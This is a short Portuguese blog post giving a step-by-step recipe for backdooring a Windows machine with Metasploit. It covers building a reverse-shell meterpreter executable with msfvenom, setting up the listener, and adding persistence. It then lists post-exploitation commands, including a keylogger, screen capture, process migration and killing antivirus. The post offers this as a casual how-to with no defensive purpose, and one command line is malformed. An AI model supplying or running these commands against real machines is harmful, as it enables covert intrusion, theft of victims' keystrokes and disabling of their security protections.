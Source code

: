```yaml
---
layout: post
title: Criando BackDoor no Windowns
date: 2016-07-12T14:54:44.000Z
---
```

<img src='/images/fulls/back.jpg'>

-Comandos para criar a backdoor:

```msfvenom -p windows/meterpreter/reverse_tcp 192.168.0.104LHOST=(SeuIP) LPORT=443 -f exe > /root/Desktop/shell.exe```

-Comandos para configurar o modo Listening:
```
msfconsole

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost (Seu IP)

set lport 443
```

exploit

-Comando manutenção de acesso:

```run persistence -A -X -i 60 -p 443 -f (Seu IP)```

Comandos do  meterpreter pra brinca 

Para obter ajuda das funções do Meterpreter.
```meterpreter > help```

Para finalizar a sessão e sair do Meterpreter.
```meterpreter > exit```

Ás vezes sera necessauro manter a sessão ativa do Meterpreter  para outras finalidades, 
para usar um modulo auxiliar por exemplo.
```metrpreter > background```

Migrar para outro processo:
```meterpreter > run migrate -f```

Obter shell:
```meterpreter > shell```

Executar um programa:
```execute -f calc.exe```

Keylogger.
```
meterpreter > keyscan_start INICIA O KEYLOGGER
meterpreter > keyscan_dump EXIBE AS TECLAS DIGITADAS
meterpreter > keyscan_stop FINALIZA O KEYLOGGER
```
Captura de tela.

```meterpreter > screenshot```

Finalizar processo de antivirus.

```meterpreter > run killav```

<a href="https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/">Mais comandos.</a>


